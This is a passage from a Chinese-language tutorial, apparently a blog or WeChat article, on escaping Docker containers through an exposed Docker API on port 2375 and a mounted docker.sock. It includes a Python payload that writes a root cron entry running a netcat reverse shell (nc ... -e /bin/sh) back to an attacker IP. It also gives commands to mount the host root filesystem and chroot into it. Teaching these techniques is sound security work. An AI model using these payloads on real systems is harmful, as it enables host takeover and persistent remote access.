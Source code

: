 访问ip:2375/version   
  
![48852cf4de76a97f252ef9ee628d2179.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKf1pgEhFSu5mUwfefgnHYiclCia5SrqichLYXS8Brfaft1JXXU0C15G4Ykw/640?wx_fmt=png&from=appmsg "")  
  
**payload**  
```
import docker  client = docker.DockerClient(base_url='http://192.168.0.138:2375') data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc 192.168.0.138 1234 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}}) print(data)
```  
  
![1e518b5fd5dfa75b5fb86766abe744d0.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfPIfbM6ClnluibiavNP4ASaAYGZvSVNr5Pps2APx7jqvH1mokicywdp35Q/640?wx_fmt=png&from=appmsg "")  
## 2、挂载docker.sock  
### 2.1、什么是docker.sock  
  
![61a823d41d2d3bf0911729d22d78fc84.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfqRUBpfJcibaxt0GDl7KIcnE5fy6nbZoXTibeqxy9icDEjsibU795yicrAlg/640?wx_fmt=png&from=appmsg "")  
  
/var/run/docker.sock是 Docker守护程序默认监听的 Unix 套接字。它也是一个用于从容器内与Docker守护进程通信的工具  **取自StackOverflow**  
Unix Sockets  术语套接字通常是指 IP 套接字。这些是绑定到端口（和地址）的端口，我们向其发送 TCP 请求并从中获取响应。  
  
另一种类型的 Socket 是 Unix Socket，这些套接字用于IPC（进程间通信）。它们也称为 Unix 域套接字 ( UDS )。Unix 套接字使用本地文件系统进行通信，而 IP 套接字使用网络。  
  
Docker 守护进程可以通过三种不同类型的 Socket 监听 Docker Engine API 请求：unix, tcp, and fd.  默认情况下，在 /var/run/docker.sock 中创建一个 unix 域套接字（或 IPC 套接字）  
### 2.2、创建docker  
```
docker run -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu:18.04 
```  
  
![401eb30118e548e2332c56fe1b3f8e1a.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfPSSJia7LXmKBqtcA1fkrv8M4SydVDXzmz4XKYPCJXsbXySkUlkgTu0g/640?wx_fmt=png&from=appmsg "")  
  
随后在docker容器中安装docker  
```
# ubuntu 18.04安装dockersudo apt-get update# 安装依赖包sudo apt-get install apt-transport-https ca-certificates curl gnupg-agent software-properties-common# 添加 Docker 的官方 GPG 密钥curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -# 验证您现在是否拥有带有指纹的密钥sudo apt-key fingerprint 0EBFCD88# 设置稳定版仓库sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"# 更新$ sudo apt-get update# 安装最新的Docker-ce sudo apt-get install docker-ce# 启动sudo systemctl enable dockersudo systemctl start docker
```  
  
![a958e3dd569caa77f796d78fd63df88e.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfsd509Bso3Y0957mZY05ORItnFe7n9STopejkjsHjqps0uwiaicq3qU1w/640?wx_fmt=png&from=appmsg "")  
  
安装完成之后我们使用docker ps就可以看到宿主机上的容器了  
### 2.3、复现  
  
将宿主机的根目录挂载到容器  
```
docker run -it -v /:/uzju ubuntu:18.04 /bin/bash 
```  
```
chroot uzju 
```  
  